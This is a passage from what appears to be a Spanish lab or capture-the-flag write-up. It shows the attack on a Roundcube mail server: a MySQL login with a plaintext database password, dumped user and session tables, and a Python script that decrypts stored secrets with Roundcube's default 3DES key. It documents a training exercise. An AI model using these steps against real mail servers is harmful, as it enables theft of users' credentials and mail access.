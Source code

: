 Comandos:

```bash
mysql -u roundcube -pRCDBPass2025 -D roundcube

```

Resultado: 

```bash

# SELECT * FROM users;

user_id username         mail_host  
                 
3       tyler     localhost       {s:11:"client_hash";s:16:"2aezFDLvMZhM0VRa";i:0;b:0;}
1       jacob     localhost       {s:11:"client_hash";s:16:"hpLLqLwmqbyihpi7";}
2       mel       localhost       {s:11:"client_hash";s:16:"GCrPGMkZvbsnc3xv";}

# SHOW TABLES;

cache
cache_index
cache_messages
cache_shared
cache_thread
collected_addresses
contactgroupmembers
contactgroups
contacts
dictionary
filestore
identities
responses
searches
session
system
users

# SELECT * FROM session;


```

Decodificador:

```bash

import base64
from Crypto.Cipher import DES3

key = b'rcmail-!24ByteDESkey*Str'
def rcube_decrypt(cipher_b64, key):
    cipher_raw = base64.b64decode(cipher_b64)
    iv = cipher_raw[:8]
    ciphertext = cipher_raw[8:]
    cipher = DES3.new(key, DES3.MODE_CBC, iv)
    plaintext = cipher.decrypt(ciphertext)
    pad_len = plaintext[-1]
    return plaintext[:-pad_len].decode(errors="ignore")

cipher_b64 = "bL9uVf9w35H/YQC75uyDjo1d/RR/zsUU"
print(rcube_decrypt(cipher_b64, key))
```
---
